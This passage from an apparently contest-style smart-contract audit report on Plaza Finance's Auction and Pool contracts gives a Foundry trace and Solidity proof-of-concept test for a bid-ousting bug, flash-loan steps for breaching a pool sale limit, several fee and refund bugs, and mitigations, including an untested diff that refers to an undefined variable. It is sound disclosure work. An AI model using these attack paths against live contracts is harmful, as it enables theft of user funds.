            │   ├─ emit Approval(owner: Attacker: [0xD022658Fd5608078a8c0E5464066B1803a2806F4], spender: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], value: 115792089237316195423570985008687907853269984665640564039457584007913129639935 [1.157e77])
            │   └─ ← [Return] true
            ├─ [0] console::log("attacker bid") [staticcall]
            │   └─ ← [Stop] 
            ├─ [143460] ERC1967Proxy::bid(10, 10)
🔵         │   ├─ [143144] Auction::bid(10, 10) [delegatecall]
            │   │   ├─ [3210] Token::transferFrom(Attacker: [0xD022658Fd5608078a8c0E5464066B1803a2806F4], ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], 10)
            │   │   │   ├─ emit Transfer(from: Attacker: [0xD022658Fd5608078a8c0E5464066B1803a2806F4], to: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], value: 10)
            │   │   │   └─ ← [Return] true
            │   │   ├─ [3009] Token::transfer(0x0000000000000000000000000000000000000001, 6)
            │   │   │   ├─ emit Transfer(from: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], to: 0x0000000000000000000000000000000000000001, value: 6)
            │   │   │   └─ ← [Return] true
🔴         │   │   ├─ emit BidRemoved(bidIndex: 2, bidder: 0x0000000000000000000000000000000000000001, buyReserveAmount: 6, sellCouponAmount: 6)
            │   │   ├─ [3009] Token::transfer(Attacker: [0xD022658Fd5608078a8c0E5464066B1803a2806F4], 4)
🟤         │   │   │   ├─ emit Transfer(from: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], to: Attacker: [0xD022658Fd5608078a8c0E5464066B1803a2806F4], value: 4)
            │   │   │   └─ ← [Return] true
🟣         │   │   ├─ emit BidReduced(bidIndex: 3, bidder: Attacker: [0xD022658Fd5608078a8c0E5464066B1803a2806F4], buyReserveAmount: 6, sellCouponAmount: 6)
            │   │   ├─ emit BidPlaced(bidIndex: 3, bidder: Attacker: [0xD022658Fd5608078a8c0E5464066B1803a2806F4], buyReserveAmount: 10, sellCouponAmount: 10)
            │   │   └─ ← [Return] 3
            │   └─ ← [Return] 3
            ├─ [0] VM::stopPrank()
            │   └─ ← [Return] 
            ├─ [0] VM::warp(1296001 [1.296e6])
            │   └─ ← [Return] 
            ├─ [0] VM::prank(BeaconProxy: [0x46F49a53a3C23AD441E01ffCA480B721AFe5e444])
            │   └─ ← [Return] 
            ├─ [101155] ERC1967Proxy::endAuction()
            │   ├─ [100848] Auction::endAuction() [delegatecall]
            │   │   ├─ [2563] Token::balanceOf(BeaconProxy: [0x46F49a53a3C23AD441E01ffCA480B721AFe5e444]) [staticcall]
            │   │   │   └─ ← [Return] 500000000000000000000000000000 [5e29]
            │   │   ├─ [31143] BeaconProxy::transferReserveToAuction(8)
            │   │   │   ├─ [27709] Token::transfer(ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], 8)
            │   │   │   │   ├─ emit Transfer(from: BeaconProxy: [0x46F49a53a3C23AD441E01ffCA480B721AFe5e444], to: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], value: 8)
            │   │   │   │   └─ ← [Return] true
            │   │   │   └─ ← [Return] 
            │   │   ├─ [563] Token::balanceOf(ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72]) [staticcall]
            │   │   │   └─ ← [Return] 12
            │   │   ├─ [24909] Token::transfer(0x0000000000000000000000000000000000000002, 12)
            │   │   │   ├─ emit Transfer(from: ERC1967Proxy: [0xCC773f431bc24EC7Cfcd296B5364bA3eCD905E72], to: 0x0000000000000000000000000000000000000002, value: 12)
            │   │   │   └─ ← [Return] true
            │   │   ├─ emit AuctionEnded(state: 1, totalSellReserveAmount: 8, totalBuyCouponAmount: 12)
            │   │   └─ ← [Return] 
            │   └─ ← [Return] 
            ├─ [1052] ERC1967Proxy::state() [staticcall]
            │   ├─ [742] Auction::state() [delegatecall]
            │   │   └─ ← [Return] 1
            │   └─ ← [Return] 1
            ├─ [0] VM::assertEq(1, 1) [staticcall]
            │   └─ ← [Return] 
            ├─ [0] console::log("auction succeeded") [staticcall]
            │   └─ ← [Stop] 
            └─ ← [Return] 

        Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 10.20ms (1.08ms CPU time)
```

</details>
<br>

### PoC_02 (for `Attack Path 02`)
<details>
<summary>
Click to view `PoC_02`
</summary>

Add this test and run with `forge test --mt test_2_bidOusted_bug -vvvv` to see it pass:
```js
  function test_2_bidOusted_bug() public {
    vm.startPrank(bidder); // honest bidder
    usdc.mint(bidder, 100);
    usdc.approve(address(auction), type(uint256).max);
    console.log("alice low bid");
    auction.bid(12, 12); 
    vm.stopPrank();

    address attacker = makeAddr("Attacker");
    vm.startPrank(attacker);
    usdc.mint(attacker, 100);
    usdc.approve(address(auction), type(uint256).max);

    console.log("attacker high bid");
    auction.bid(2, 6); 
    console.log("attacker low bid");
    auction.bid(12, 12); 
    vm.stopPrank();

    vm.warp(block.timestamp + 15 days);
    vm.prank(pool);
    auction.endAuction();

    assertEq(uint256(auction.state()), uint256(Auction.State.SUCCEEDED));
    console.log("auction succeeded");
  }
```

</details>
<br>

## Mitigation 
- Option1:
  - As mentioned in the summary section, we need to do the comparison & re-validations again **after** the scaling down of the new bid has been done, to get an accurate picture.

- Option2:
  - The following fix seems to make the current issue go away. I haven't tested this for all the other scenarios, so please run a regression suite over this.
```diff
  function insertSortedBid(uint256 newBidIndex) internal {
    Bid storage newBid = bids[newBidIndex];
    uint256 newSellCouponAmount = newBid.sellCouponAmount;
    uint256 newBuyReserveAmount = newBid.buyReserveAmount;
    uint256 leftSide;
    uint256 rightSide;

    if (highestBidIndex == 0) {
      // First bid being inserted
      highestBidIndex = newBidIndex;
      lowestBidIndex = newBidIndex;
    } else {
      uint256 currentBidIndex = highestBidIndex;
      uint256 previousBidIndex = 0;

      // Traverse the linked list to find the correct spot for the new bid
      while (currentBidIndex != 0) {
        // Cache the current bid's data into local variables
        Bid storage currentBid = bids[currentBidIndex];
        uint256 currentSellCouponAmount = currentBid.sellCouponAmount;
        uint256 currentBuyReserveAmount = currentBid.buyReserveAmount;
        uint256 currentNextBidIndex = currentBid.nextBidIndex;

        // Compare prices without division by cross-multiplying (it's more gas efficient)
        leftSide = newSellCouponAmount * currentBuyReserveAmount;
        rightSide = currentSellCouponAmount * newBuyReserveAmount;

-       if (leftSide > rightSide || (leftSide == rightSide && newSellCouponAmount > currentSellCouponAmount)) {
+       if (
+         leftSide > rightSide 
+         || (leftSide == rightSide && newSellCouponAmount > currentSellCouponAmount && currentCouponAmount == totalBuyCouponAmount && currentBidIndex != lowestBidIndex)
+         || (leftSide == rightSide && newSellCouponAmount > currentSellCouponAmount && currentCouponAmount < totalBuyCouponAmount)
+       ) {
          break;
        }
        
        previousBidIndex = currentBidIndex;
        currentBidIndex = currentNextBidIndex;
      }

      if (previousBidIndex == 0) {
        // New bid is the highest bid
        newBid.nextBidIndex = highestBidIndex;
        bids[highestBidIndex].prevBidIndex = newBidIndex;
        highestBidIndex = newBidIndex;
      } else {
        // Insert bid in the middle or at the end
        newBid.nextBidIndex = currentBidIndex;
        newBid.prevBidIndex = previousBidIndex;
        bids[previousBidIndex].nextBidIndex = newBidIndex;
        if (currentBidIndex != 0) {
          bids[currentBidIndex].prevBidIndex = newBidIndex;
        }
      }

      // If the new bid is inserted at the end, update the lowest bid index
      if (currentBidIndex == 0) {
        lowestBidIndex = newBidIndex;
      }
    }

    // Cache the lowest bid's data into local variables
    Bid storage lowestBid = bids[lowestBidIndex];
    uint256 lowestSellCouponAmount = lowestBid.sellCouponAmount;
    uint256 lowestBuyReserveAmount = lowestBid.buyReserveAmount;

    // Compare prices without division by cross-multiplying (it's more gas efficient)
    leftSide = newSellCouponAmount * lowestBuyReserveAmount;
    rightSide = lowestSellCouponAmount * newBuyReserveAmount;

    if (leftSide < rightSide || (leftSide == rightSide && newSellCouponAmount < lowestSellCouponAmount)) {
      lowestBidIndex = newBidIndex;
    }
  }
```

[Back to Top](#summaryTable)
---

### <a id="h-05"></a>[H-05]
## **Flash loan can be used to breach PoolSaleLimit in auctions**
#### https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L341
<br>

## Description
When `endAuction()` function is called, [it relies on pool balance of reserve tokens to verify if `poolSaleLimit` is breached](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L341):
```js
    else if (totalSellReserveAmount >= (IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100) {
        state = State.FAILED_POOL_SALE_LIMIT;
    } 
```

Since it is an `external` function which can be called by anyone, a flash loan (or own funds) can be used to trick the protocol into thinking that `totalSellReserveAmount` has not surpassed `poolSaleLimit`. Consider the following:
1. Suppose `poolSaleLimit = 95%` and poolReserves or balance of reserveTokens in the pool = `900,000`.
2. Let's consider `totalSellReserveAmount` at end of auction is `860,000`.
4. `endAuction()` should revert if `totalSellReserveAmount` >= `900,000 * 95% = 855,000`, which it is.
5. Attacker takes a flash loan of `100,000` to deposit reserves & `create()` some tokens. Then calls `endAuction()`. Protocol sees that `totalSellReserveAmount` is less than `1000,000 * 95% = 950,000` and hence does not revert. Attacker then calls `redeem()` and returns the flash loan.

Also, it's worth noting that although Base has a [private mempool](https://docs.optimism.io/stack/differences#mempool-rules) (visible only to the Sequencer) so deliberate front-running is not an option but it could happen naturally that the attacker's `endAuction()` call executes before others (attacker can also attempt to offer a considerable high fee to increase their chances).

## Impact
- Greater than the safe limit of `poolSaleLimit` can be auctioned off, thus reducing the overall balance of reserveTokens the protocol wished to maintain.
- This could even cause CL to go below threshold thus offering the attacker to mint new tokens at a discounted rate.

## Mitigation 
A few ways to mitigate this would be:
1. Use a Time-Weighted Average Reserve (TWAR) instead of current balance.
2. Add a timelock on `endAuction()` by adding a `requestEndAuction()` function. One needs to call `requestEndAuction()` first & the auction ends and balances are stored in storage variables. Then an hour (or a day) later, `endAuction()` can be called which relies on the previously saved balances.

[Back to Top](#summaryTable)

<br>

## **MEDIUM-SEVERITY BUGS**
---

### <a id="m-01"></a>[M-01]
## **Higher fee charged & leverage tokens minted when pool created in a paused state**
#### https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L273
<br>

## Description
When a [pool is created via the PreDeposit route](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/PreDeposit.sol#L154) it's always created by default in a paused state:
```js
    // @audit-info : last param is `true` which results in the pool created in paused state
    pool = factory.createPool(params, reserveAmount, bondAmount, leverageAmount, bondName, bondSymbol, leverageName, leverageSymbol, true);  
```
**Note** that even in the non-PreDeposit route, pool creator has the option to create it in a paused state.

[simulateCreate()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L273) and [simulateRedeem()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L433) calculate fee based on the time elapsed since `lastFeeClaimTime`:
```js
    poolReserves = poolReserves - (poolReserves * fee * (block.timestamp - lastFeeClaimTime)) / (PRECISION * SECONDS_PER_YEAR);
```

But the logic in `Pool.sol` initializes [`lastFeeClaimTime` to the pool creation time](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L164) instead of the time it is **first unpaused** in such cases. Hence the protocol would inadvertently mint higher than intended leverage tokens for the first few users calling `create()`. These users hence benefit more than others for the same amount of their investment. 

This happens so because the [`poolReserves` amount passed to `getCreateAmount()` to would be lower](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L289) resulting in a [lower tvl calculation](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L325). This reduces the [`adjustedValue` and `creationRate` calculation](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L339-L340). Finally this reduced `creationRate` results in the user receiving more tokens since `creationRate` is [in the denominator here](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L343):
```js
    return ((depositAmount * ethPrice * PRECISION) / creationRate).toBaseUnit(oracleDecimals);
```

The subsequent users would keep on benefitting the same way as the first one since fee is simply based on `(block.timestamp - lastFeeClaimTime)` and `poolReserves` continue to be reduced more than intended **_until claimFees() is called once by admin_** which [resets `lastFeeClaimTime` to current `block.timestamp`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L708).

## Impact
- Protocol pockets more than intended fee and also mints higher amount of leverage tokens to the users calling `create()`.
- A reduced `tvl` can cause the protocol to falsely believe that `CL <= threshold` and hence offer creation of tokens [at a discounted rate](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L326-L333) thus causing further damage to the protocol.

## Mitigation 
Add a flag which tracks if the pool has been unpaused for the first time since it was created in a paused state. If so, then set `lastFeeClaimTime` to this `block.timestamp`. 

[Back to Top](#summaryTable)
---

### <a id="m-02"></a>[M-02]
## **Auction can fail if USDC blacklists user after bid placement**
#### https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L157
<br>

## Description & Impact
Consider the scenario:
1. Alice places her bid.
2. She gets added into the USDC blacklist.
3. Bob places a higher bid. The `bid()` function either [internally calls `_removeBid()`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L157) or internally [calls `removeExcessBids()` which in turn calls `_removeBid()`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L161).
4. `removeBid()` tries to [refund Alice](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L324-L325). Since Alice has been blackllisted, this will revert.
5. Thus, Alice's bid can not be removed from the bid list even if users are willing to post higher bids.
6. In case Alice has posted multiple bids and exhausted the `maxBids` limit, no further bids can be placed. Since funds from Alice are already collected, she will receive the reserve tokens from the auction & benefit.
7. It may also happen in some cases that due to the inability to remove her bids, the `totalBuyCouponAmount` figure is not reached and the auction fails with `State.FAILED_UNDERSOLD`.

## Mitigation 
Instead of immediately transferring USDC back to the user inside `_removeBid()`, create a mapping and store the eligible refund amount. Create a new function which allows the user to claim this refund amount.

[Back to Top](#summaryTable)
---

### <a id="m-03"></a>[M-03]
## **User's claimable reserve tokens can get stuck due to use of raw transfer() inside claimBid()**
#### https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L362
<br>

## Description
[claimBid()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L362) uses `transfer()` instead of `safeTransfer()`:
```js
      function claimBid(uint256 bidIndex) auctionExpired auctionSucceeded whenNotPaused external {
        Bid storage bidInfo = bids[bidIndex];
        if (bidInfo.bidder != msg.sender) revert NothingToClaim();
        if (bidInfo.claimed) revert AlreadyClaimed();

        bidInfo.claimed = true;
@--->   IERC20(sellReserveToken).transfer(bidInfo.bidder, bidInfo.buyReserveAmount);

        emit BidClaimed(bidIndex, bidInfo.bidder, bidInfo.buyReserveAmount);
      }
```

Raw `transfer()` can silently fail and there is no check implemented to verify the successful transfer. If it fails then:
- The bid would be marked as `claimed = true`
- The user would not receive their tokens
- The user cannot try to claim again because the call will revert with `AlreadyClaimed()`

## Impact
- The tokens remain locked in the Auction contract
- Neither the user nor the protocol can recover these tokens on user's behalf

## Mitigation 
Use `safeTransfer()` instead, as has been done in other functions.

[Back to Top](#summaryTable)
